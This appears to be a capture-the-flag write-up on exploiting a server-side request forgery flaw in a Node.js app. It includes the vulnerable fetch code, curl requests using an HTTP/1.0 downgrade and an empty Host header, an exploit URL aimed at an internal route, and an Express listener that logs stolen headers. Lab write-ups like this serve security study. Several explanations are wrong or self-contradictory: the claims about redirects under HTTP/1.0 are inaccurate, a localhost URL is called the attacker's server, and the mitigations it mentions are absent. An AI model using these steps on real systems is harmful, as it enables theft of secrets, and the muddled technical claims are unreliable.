

Web_Dusty_alleys
Exploiting SSRF Vulnerabilities
In this article, we will walk through the exploitation of a Server-Side Request Forgery (SSRF) vulnerability, particularly focusing on how attackers can misuse the HTTP/1.0 protocol downgrade technique to manipulate the server’s behavior, leak sensitive data, and exfiltrate secrets. What is SSRF?
Server-Side Request Forgery (SSRF) is a vulnerability where an attacker tricks the server into making an HTTP request to an unintended resource. SSRF vulnerabilities typically arise when a server is allowed to fetch URLs provided by a user, but without proper validation or restrictions. This can lead to several serious security issues, including:
Information leakage: Sensitive data can be sent to an attacker-controlled server.
Internal network scanning: Attackers can use the vulnerability to probe internal services or servers within the organization.
Exploitation of other vulnerabilities: In some cases, SSRF can be used to exploit other vulnerabilities, such as those in internal services, databases, or authentication systems.
In this guide, we’ll see how an attacker might exploit an SSRF vulnerability to leak sensitive headers (like cookies or authentication tokens) to an external server under their control. Overview of the Attack
The SSRF attack we’ll be demonstrating involves the following steps:
-
Identify the Vulnerability: An application allows the user to provide a URL (e.g., via a quote parameter) which it will then fetch using a server-side HTTP client (such as node-fetch).
-
Exploit the Vulnerability Using HTTP/1.0: By downgrading the request to HTTP/1.0, the attacker can bypass certain redirect handling mechanisms and gain better control over the server’s behavior.
-
Capture Sensitive Headers: The attacker crafts a malicious request that causes the server to fetch a URL they control, exfiltrating sensitive headers like the Key header, which may contain a flag or other sensitive information.
Step 1: Identifying the Vulnerability
The application you’re targeting allows users to submit a URL via the quote parameter. When the application processes this parameter, it uses an HTTP client (like node-fetch) to make a request to the provided URL, and may forward sensitive headers such as cookies or authentication tokens.
Example of the vulnerable code:
router.get("/guardian", async (req, res) => {
const quote = req.query.quote;
try {
let result = await node_fetch(quote, {
method: "GET",
headers: { Key: process.env.FLAG || "HTB{REDACTED}" },
}).then((res) => res.text());
res.set("Content-Type", "text/plain");
res.send(result);
} catch (e) {
console.error(e);
return res.render("guardian", { error: "The words are lost in my circuits" });
}
});
Flaw: There is no restriction on where the quote parameter points. The application blindly fetches the URL and forwards headers like Key to the external server.
Step 2: Downgrading to HTTP/1.0
One of the critical techniques in this attack is downgrading the HTTP version to HTTP/1.0. By doing this, the attacker ensures that the application’s HTTP client behaves differently and may not follow certain redirects, giving the attacker more control over the request. Why Use HTTP/1.0?
No Automatic Redirects: In HTTP/1.1 and HTTP/2, redirections (via the Location header) are automatically followed. In HTTP/1.0, redirects must be handled manually by the client. This gives the attacker the ability to intercept and control redirects.
Bypassing Server Behavior: Many modern servers may optimize for HTTP/1.1 or HTTP/2, handling headers differently. By forcing HTTP/1.0, attackers may bypass these optimizations and force the server to handle requests in a less secure way.
How to Force HTTP/1.0 Using curl:
To force HTTP/1.0 in your request, you can use the --http1.0 flag with curl.
Example command to downgrade to HTTP/1.0:
curl http://$IP:$PORT/think --http1.0 -H 'Host:'
In this case, you’re sending an HTTP request to the /think route with an empty Host header. This step helps you test and verify how the server responds to HTTP/1.0 requests and may reveal virtual hosts or internal configuration details.
Example Response:
{
"host": "alley.firstalleyontheleft.com",
"x-real-ip": "10.30.18.174",
"x-forwarded-for": "10.30.18.174",
"x-forwarded-proto": "http",
"connection": "close",
"user-agent": "curl/8.12.1",
"accept": "*/*"
}
Key Information: You can see the host field, which identifies the virtual host used (alley.firstalleyontheleft.com), along with additional headers that might help identify how the server is configured or its internal structure.
Step 3: Exploiting the SSRF Vulnerability
With the knowledge gained in Step 1 and Step 2, the attacker can now craft an exploit that forces the server to make a request to a location controlled by the attacker.
The goal is to make the server fetch a URL that exfiltrates sensitive headers. The quote parameter in the vulnerable /guardian endpoint can be manipulated to point to the attacker’s server (which will capture the request headers).
Exploit Request:
curl http://$IP:$PORT/guardian?quote=http%3A%2F%2Flocalhost%3A1337%2Fthink -H 'Host: guardian.firstalleyontheleft.com'
Explanation: quote=http%3A%2F%2Flocalhost%3A1337%2Fthink is the URL-encoded path that will make the server send a request to http://localhost:1337/think
Host: guardian.firstalleyontheleft.com specifies the target virtual host for the request.
When the vulnerable server processes this request, it will make a server-side request to http://localhost:1337/think, and any sensitive headers (like Key, which might contain the flag) will be forwarded to the attacker’s server.
Step 4: Capture the Flag
The attacker must set up a server to listen for incoming HTTP requests and capture sensitive headers like the Key header, which may contain the flag.
Example attacker server using Node.js (Express):
const express = require('express');
const app = express();
app.get('/', (req, res) => {
console.log('Received headers:', req.headers); // Capture sensitive headers
res.send('Request received!');
});
app.listen(1337, () => {
console.log('Server is listening on port 1337');
});
In this article, we’ve walked through the process of exploiting an SSRF vulnerability, leveraging HTTP/1.0 downgrades to manipulate server behavior, and capturing sensitive data through crafted HTTP requests. By following this methodology, attackers can exfiltrate secrets from vulnerable applications, while defenders can use the outlined mitigations to secure their systems from such attacks. Always be aware of SSRF risks and take proactive steps to mitigate them.
